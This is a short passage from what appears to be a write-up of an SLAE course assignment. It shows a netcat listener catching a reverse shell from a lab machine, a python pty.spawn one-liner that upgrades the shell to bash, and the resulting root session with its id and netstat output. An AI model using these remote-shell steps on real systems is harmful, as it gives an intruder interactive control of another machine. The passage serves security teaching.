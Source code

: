 <p style="text-align:justify;">
Furthermore, after the successful connection to the target machine, we will use the following python command in order to have a bash prompt to the open shell above
</p>

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
~ nc -nlv 1234 
python -c 'import pty; pty.spawn("/bin/bash")' 
<span style="color:#cd0000;"><b>root@slae</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment2</b></span># id
id
uid=0(root) gid=0(root) groups=0(root) 
root@slae:~/Documents/SLAE/Assignment2# netstat -antp | grep 1234
netstat -antp | grep 1234
tcp 0 0 192.168.200.13:50914 192.168.200.4:1234 ESTABLISHED 812/s
</pre>

